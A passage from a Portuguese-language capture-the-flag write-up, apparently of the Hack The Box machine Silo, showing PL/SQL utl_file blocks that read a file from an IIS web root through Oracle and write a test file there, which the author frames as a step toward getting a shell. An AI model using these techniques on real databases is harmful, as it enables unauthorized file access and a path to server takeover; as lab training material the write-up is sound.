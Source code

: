 Vamos fazer de dois modos, através do SQLInjection nesse banco de dados e através do ODAT

### SQLInjection

Com esse terminal, poder ler arquivos e também escrever em arquivos, não é algo tão trivial, pq a oracle tem sua linguagem própria, mas é tão possível que vamos demonstrar agora

```
SQL> declare
  2     f utl_file.file_type;
  3     s varchar(200);
  4  begin
  5     f := utl_file.fopen('/inetpub/wwwroot', 'iisstart.htm', 'R');
  6     utl_file.get_line(f,s);
  7     utl_file.fclose(f);
  8     dbms_output.put_line(s);
  9  end;
 10  /

PL/SQL procedure successfully completed.
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql5.png)

Agora lemos o arquivo que foi carregado

```
SQL> set serveroutput ON
SQL> /
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql6.png)

Po, mas assim podemos ler as flags? Sim, podemos, mas não quero apenas ler as flags e pronto, quero um shell na máquina, pra consolidar a exploração

PODEMOS ESCREVER ARQUIVOS TAMBÉM!

```
SQL> declare
  2     f utl_file.file_type;
  3     s varchar(5000) := 'Quero um shell nessa bagaça';
  4  begin
  5     f := utl_file.fopen('/inetpub/wwwroot/', 'hello.txt','W');
  6     utl_file.put_line(f,s);
  7     utl_file.fclose(f);
  8  end;
  9  /

PL/SQL procedure successfully completed.

```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql7.png)
